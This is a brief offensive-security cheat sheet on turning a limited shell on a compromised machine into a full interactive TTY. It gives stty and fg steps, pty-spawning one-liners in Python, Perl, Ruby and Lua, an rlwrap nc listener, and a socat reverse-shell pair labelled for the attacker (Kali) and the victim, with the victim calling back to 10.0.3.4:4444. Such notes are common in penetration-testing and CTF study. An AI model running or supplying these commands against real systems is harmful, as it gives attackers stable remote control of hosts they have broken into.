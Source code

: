 # Upgrading Shells

Sometimes, you want to access shortcuts, su, nano and autocomplete in a partially tty shell.

```bash
# ctrl+z
echo $TERM && tput lines && tput cols

# for bash
stty raw -echo
fg

# for zsh
stty raw -echo; fg

reset
export SHELL=bash
export TERM=xterm-256color
stty rows <num> columns <cols>
```



## TTY shells

```bash
/bin/sh -i

# Python
python -c 'import pty; pty.spawn("/bin/sh")'
python -c 'import pty; pty.spawn("/bin/bash")' 

# Perl
perl -e 'exec "/bin/sh";'
perl -e 'exec "/bin/bash";'
perl: exec "/bin/sh";

# Ruby
ruby: exec "/bin/sh"

# Lua
lua: os.execute('/bin/sh')

# Socat
## (Kali)
socat file:`tty`,raw,echo=0 tcp-listen:4444  
## (Victim)
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.0.3.4:4444  

#or use socat binary to get a fully tty reverse shell
socat file:`tty`,raw,echo=0 tcp-listen:12345
```

## rlwrap

In order to catch a shell, you need to listen on the desired port. rlwrap will enhance the shell, allowing you to clear the screen with \[CTRL\] + \[L\].

```text
rlwrap nc localhost 80
```




